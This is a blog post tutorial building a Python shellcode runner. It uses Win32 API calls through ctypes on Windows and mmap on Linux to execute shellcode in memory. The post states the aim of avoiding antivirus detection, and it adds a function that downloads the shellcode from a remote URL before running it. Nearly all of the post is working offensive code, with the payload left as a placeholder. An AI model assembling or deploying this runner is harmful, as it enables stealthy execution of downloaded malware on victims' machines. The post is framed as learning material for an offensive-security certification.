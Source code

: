 ```yaml
---
title: "Simple Shellcode Runner in Python3"
date: 2021-11-22
draft: false
---
```


# Introduction
I'm going to be discussing executing shellcode in Python. A shellcode runner is a tool that executes shellcode in memory. This technique enables us to avoid downloading malware to the hard drive, which might be flagged by AV software.

We can use the native windows operating system API to execute shellcode in memory. This is also known as Win32 API. These APIs were designed to be used with C and uses C data types, however, they can be invoked in other languages.

# Approach 
We will use three APIs from the kernel32 DLL:
- VirtualAlloc
- RtlMoveMemory
- CreateThread

*VirtualAlloc* will be used to allocate unmanaged memory in the calling process. Then we will copy our shellcode into the allocated memory with *RtlMoveMemory* and create a new thread with *CreateThread* to execute the shellcode.

# Calling Win32 API in Python
We will use [ctypes](https://docs.python.org/3/library/ctypes.html) to interact with the win32 apis in python. 

We will take a look at each API one at a time. First let's load the kernel32.dll.

`kernel32 = ctypes.windll.kernel32`

## VirtualAlloc
The prototype for VirtualAlloc is like this:

```c
LPVOID VirtualAlloc(
LPVOID lpAddress,
SIZE_T dwSize,
DWORD flAllocationType,
DWORD flProtect );
```

- lpAddress is the memory allocation address. The documentations suggest we set it to 0 to allow the API to choose the location.
- dwSize indicates the size of the allocation. In this case we'll use the size of the shellcode array.
- flAllocationType and flProtect indicates the allocation type and memory protection. We will use 0x3000 for the allocation type which will call VirtualAlloc with MEM_RESERVE and MEM_COMMIT. 0x40 indicates that the memory is readable, writable, and executable.

Let's look at the python code:
```
shellcode = <shellcode here>
length = len(shellcode)
kernel32.VirtualAlloc.restype = ctypes.c_void_p

ptr = kernel32.VirtualAlloc(None, length, 0x3000, 0x40)
```
 
 By default, functions will return the c int type. We can use restype to use other return types.
 
 Now that we have allocated memory, we must copy the shellcode into this memory location.
 
 ## RtlMoveMemory
 The prototype for RtlMoveMemory looks like this:

 ```c
 VOID RtlMoveMemory(
 _Out_       VOID UNALIGNED *Destination,
 _In_  const VOID UNALIGNED *Source,
 _In_        SIZE_T         Length );
 ```
 
 - Destination is the pointer to the memory block to write to.
 - Source is the pointer to the source memory block to copy from.
 - Length is the number of bytes to copy from source to destination.

In Python:
```
buf = (ctypes.c_char * len(shellcode)).from_buffer_copy(shellcode)

kernel32.RtlMoveMemory.argtypes = (ctypes.c_void_p, ctypes.c_void_p, ctypes.c_size_t)

kernel32.RtlMoveMemory(ptr, buf, length)
```

The destination pointer is pointing to the allocated buffer which is already a memory pointer so we just pass it as is. 

For the source buffer, we need to get the address of the shellcode. 

Now that we have copied our payload into the executable buffer, we can now execute it with CreateThread.

## CreateThread
The prototype for CreateThread:

```c
HANDLE CreateThread(
LPSECURITY_ATTRIBUTES lpThreadAttributes,
SIZE_T dwStackSize,
LPTHREAD_START_ROUTINE lpStartAddress,
LPVOID lpParameter,
DWORD dwCreationFlags,
LPDWORD lpThreadId );
```

- lpThreadAttributes and dwStackSize specifies thread settings and we will set it to 0 because we will not need them.
- lpStartAddress is the start address for our code execution. We will use the address of our shellcode buffer
- lpParameter is a pointer to the arguments at the start of our starting address. We will not be using this.

Python:
`ht = ctypes.windll.kernel32.CreateThread(ctypes.c_int(0), ctypes.c_int(0), ctypes.c_void_p(ptr), ctypes.c_int(0), ctypes.c_int(0), ctypes.pointer(ctypes.c_int(0)))`

We will also use WaitForSingleObject() to wait until the thread exits.

`ctypes.windll.kernel32.WaitForSingleObject(ht, -1)`


However, this will only work on windows because we need the ctypes windll library. We can use python in mmap to execute our shellcode in memory on linux.


# mmap - linux
We will use [python's mmap](https://docs.python.org/3/library/mmap.html) to execute our shellcode in memory on linux.

First we need to allocate memory and set the proper memory allocation and protection.

```python
mm = mmap.mmap(

 -1,

 mmap.PAGESIZE,

 mmap.MAP_SHARED,

 mmap.PROT_READ | mmap.PROT_WRITE | mmap.PROT_EXEC,

 )
```

We'll write the shellcode to the allocated memory using mmap's write method.
`mm.write(shellcode)`

Now we need to get the address of the mmap memory. We'll use ctypes from_buffer() for this.
`ptr = ctypes.c_int.from_buffer(mm)`

Then all we need to do is create the function and call it to execute the shellcode.

```
functype = ctypes.CFUNCTYPE(ctypes.c_void_p)

fn = functype(ptr)

fn()
```


# Downloading Shellcode
Now that we are able to execute shellcode in memory in windows and linux, we need to create a function to download our shellcode remotely instead of hardcoding our shellcode. We can use urllib.request to do so.

```
def downloader(shellcode_url):

 with urllib.request.urlopen(shellcode_url) as f:

 print("[+] Downloading shellcode...")

 time.sleep(3)

 data = f.read()

 shellcode = bytearray(data)

 str1 = shellcode.decode('unicode_escape').encode("raw_unicode_escape")

 file_size = len(str1)

 print("[+] %s Bytes Downloaded!" % (file_size))

 return str1
 ```
 
 We start by downloading the shellcode from the url and reading the file. We then converting the data into a bytearray and return the bytearray.
 
 # Closing Notes
 This is a very simple shellcode runner implemented in python. There are other functionalities that can be added to this and I will work on that as I learn these materials in OSEP. The link to the source code can be found on my github https://github.com/momo1239/buffshark-shellcode-runner
 